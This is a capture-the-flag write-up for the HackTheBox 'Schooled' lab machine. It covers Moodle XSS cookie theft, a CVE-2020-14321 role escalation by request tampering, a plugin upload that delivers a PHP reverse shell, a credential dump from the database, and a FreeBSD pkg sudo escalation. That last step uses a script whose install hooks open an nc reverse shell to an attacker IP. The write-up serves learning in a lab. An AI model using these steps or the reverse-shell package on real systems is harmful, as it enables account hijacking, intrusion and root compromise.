<p align="center">
 
</p>


<hr>

Its me **m3rcer**, and get ready to be schooled trying this one!
In my opinion its a  medium box w a good realistic feel . The foothold is quite challenging but much will be learnt in the process.


*[Find the official room for Hackthebox's - Schooled here!](https://app.hackthebox.eu/machines/335)*

Lets Begin!

<hr>
----------------------------------------------------------------------------------------------------


### ENUMERATION:

We kick it off w a usual nmap scan . In this case a default script and version scan w the verbose flag to see open ports on the fly without having to wait for the scan to finish.

<p align="center">
 
</p>


Scanning for all ports just to be safe show mysql is running on port 33060.

<p align="center">
 
</p>

Trying to see if we can remotely access the database results in no access. 

Moving on! We begin by looking at the server at port 80 as always....

Looking at page source suggests for adding an entry in hosts list . Add schooled.htb to your /etc/hosts and continue browsing the site . 

<p align="center">
 
</p>


Looking at the about us page . We discover The possble cms used - Moodle!

<p align="center">
 
</p>


Looking at searchsploit and exploitdb a bunch of exploits are found . Will check them in depth once enumeration has finished .


Looking at the Teachers page , we find a bunch of possible unames and roles. 

Added the following to my user.list file.

```
Jane Higgins :- Scientific Research lecturer
Lianne Carter:- Manager and English Teacher
Manuel Phillips:- Mathematics Teacher
Jamie Borham:- Information Technology lecturer
```


Directory bruteforcing w Gobuster and such dosen't result in anything too useful.

So far info discovered:

```bash
mail: admissions@schooled.htb
From wappalyzer: Php 7.4.15, Apache2, Bootstrap 4.1.0
```

Nothing seems too useful so far ... No admin / login panel was found yet, the above info suggests one may exist. Hmmmm... A possible vhost?


Using gobuster for vhost bruteforcing i found : *moodle.schooled.htb*

Add moodle.schooled.htb to your /etc/hosts list and browse to it.

<p align="center">
 
</p>

Visiting the page lets us signup without a confirmation!

Create an account next . While signing up the mail naming convention is name@student.schooled.htb.

After unsuccesfull attempts to upload a payload and get rce , 
what caught my eye was Manuel Phillips (teacher) was online and the owner of the maths course.
Possible xss?

On Looking for the Moodle versions and [CVE] we got 2 major.

Looking at the announcement section Manuel Phillips hints at the MoodleNet Profile in the user settings section. Maybe an xss is possible here? 

----------------------------------------------------------------------------------------------------

### FOOTHOLD:

I setup my xss-server w this simple python script ..... you can use a basic python server or nc . 
[Link to xss-server script](https://github.com/lnxg33k/misc/blob/master/XSS-cookie-stealer.py)


- Start the server. 

- Enroll in the maths course .

- Use this xss payload: ``

- paste it in the user settings section

<p align="center">
 
</p>

wait for a few seconds and recieve the teachers cookie on your xss-server.

<p align="center">
 
</p>

- Copy this cookie --> Inspect Element --> Storage --> replace MoodleSession's value to the cookie --> refresh the pg/ F5 to. You're Now Manuel Phillips - Teacher!

----------------------------------------------------------------------------------------------------

### PRIVESC: to MANAGER --> ADMIN!**

After poking around quite a bit , nothing seems to be in favor. As quite a bit has been enumerated and nothing else left but look back at exploitdb and moodles cve's. 

I found this interesting site: [moodle_priv_esc](https://moodle.org/security/index.php?o=3&p=2)

This shows that  a privesc was possible from teacher to manager role by exploiting the course enrollment functionality. 

Looking at our users.txt we know that Lianne Carter is a manager and we could possibly perform the exploit w this user.
Looking up the cve on github i found a poc: [exploit_poc](https://github.com/HoangKien1020/CVE-2020-14321)


Steps to perform this privesc:

- Go to the maths section as teacher --> Participants.
Click on the Enroll Users option and enroll Lianne carter. Switch on intercept in burp and intercept the passed request.

- Send the request to repeater and change the following 2 values to match that of your current teacher(id=24).
Changed these params to match: userlist%5B%5D=24&roletoassign=1. (Changing user id to teachers id == 24 and changing role to admin == 1)

<p align="center">
 
</p>

Send the request and stop intercept after.

- From here click on Lianne carter's profile from the below list. Note to see the diff of and Administration button on the side .

<p align="center">
 
</p>

Click on it and now we have higher privs!

- From the poc discussed above we can add even more privs to allow us to install a plugin of choice . To do this click on site administration from here.

- Click on Users --> define roles --> Click on the 'edit' icon in the manager role. Turn intercept on before you do and add the payload from the poc described . Forward to request to get full privs!

<p align="center">
 
</p>

- Next grab rce.zip from [here](https://github.com/HoangKien1020/Moodle_RCE)

- unzip the file . modify block_rce.php file to a standard php reverse shell of your choosing. zip back the contents using zip -r -q lala.zip rce

- Click on install plugin after upload --> continue --> You will see a screen w current information . Dont go past it . Time to trigger the rce !

- Setup an nc listener , Open a new tab and  trigger the exploit using this link **http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php**

WE NOW HAVE A SHELL ! CONGRATS! 


----------------------------------------------------------------------------------------------------


### POST EXPLOITATION:


**TO User.txt:**

Poking around and looking for config files , we find the apache dir and moodle data dir as **usr/local/www/apache24/data/moodle/** .


Checking the file **config.php** in dir:

<p align="center">
 
</p>


We get db creds as  *moodle:P################0* 

We notice that mysql dosent exist in PATH. We find mysql using the basic find command : **find / -name mysql 2> /dev/null**
Mysql is at /usr/local/bin/mysql

We perform 3 basic queries now to enumerate the db: 

Fist cd to /usr/local/bin 
then:

- mysql -u moodle -pPlaybookMaster2020 -e 'show databases;' --> infer moodle as the db name.
- mysql -u moodle -pPlaybookMaster2020 -e 'use moodle; show tables;'  --> we infer mdl_user could be juicy.
- mysql -u moodle -pPlaybookMaster2020 -e 'use moodle; select * from mdl_user;' --> db creds dump. 


<p align="center">
 
</p>

Jamie's account here is of interest as he is one of the users on the box.
This hash is a bcrypt hash.

use your favorite cracker to crack this one .

Im using john the ripper for this instance

<p align="center">
 
</p>


We finally found Jamies creds : 
We can now ssh over w these creds :

*jamie:!#####x*

Get user.txt!


----------------------------------------------------------------------------------------------------

### Final Privesc: To ROOT

Performing a basic sudo -l give us:

<p align="center">
 
</p>

Poking around the internet and doing some good research on what the command is we find that it is a distinct binary that is replaced by the bootstrapped binary during the initial installation process.

We can use this to probably install a custom package w code modified to privesc.

I found this article on doing so: [here](http://lastsummer.de/creating-custom-packages-on-freebsd/)

After reading the article i put it all as a single script modified parts of it . I used nc shells as the box has netcat and bsd just wouldn't work well w regular bash shells.

The script :

```bash
#!/bin/sh
STAGEDIR=/tmp/stage
rm -rf ${STAGEDIR}
mkdir -p ${STAGEDIR}
cat >> ${STAGEDIR}/+PRE_DEINSTALL <<EOF
# careful here, this may clobber your system
echo "Resetting root shell"
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.52 9001 >/tmp/f
EOF
cat >> ${STAGEDIR}/+POST_INSTALL <<EOF
# careful here, this may clobber your system
echo "Registering root shell"
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.52 9001 >/tmp/f
EOF
cat >> ${STAGEDIR}/+MANIFEST <<EOF
name: mypackage
version: "1.0_5"
origin: sysutils/mypackage
comment: "automates stuff"
desc: "automates tasks which can also be undone later"
maintainer: john@doe.it
www: https://doe.it
prefix: /
EOF
echo "deps: {" >> ${STAGEDIR}/+MANIFEST
pkg query "  %n: { version: \"%v\", origin: %o }" portlint >> ${STAGEDIR}/+MANIFEST
pkg query "  %n: { version: \"%v\", origin: %o }" poudriere >> ${STAGEDIR}/+MANIFEST
echo "}" >> ${STAGEDIR}/+MANIFEST
mkdir -p ${STAGEDIR}/usr/local/etc
echo "# hello world" > ${STAGEDIR}/usr/local/etc/my.conf
echo "/usr/local/etc/my.conf" > ${STAGEDIR}/plist
pkg create -m ${STAGEDIR}/ -r ${STAGEDIR}/ -p ${STAGEDIR}/plist -o .
```

- Save the script and making executable : _chmod +x script.sh_
- execute the script and note to see a package made named : mypackage-1.0_5.txz.
- Run : ***sudo /usr/sbin/pkg install --no-repo-update mypackage-1.0_5.txz*** (no repo update to stop it from check from an online source) and start a listener.

<p align="center">
 
</p>


<p align="center">
 
</p>


You now have root.
Cat root.txt

Did you get schooled??


## Bookmark my page to check ctf writeups on the regular!

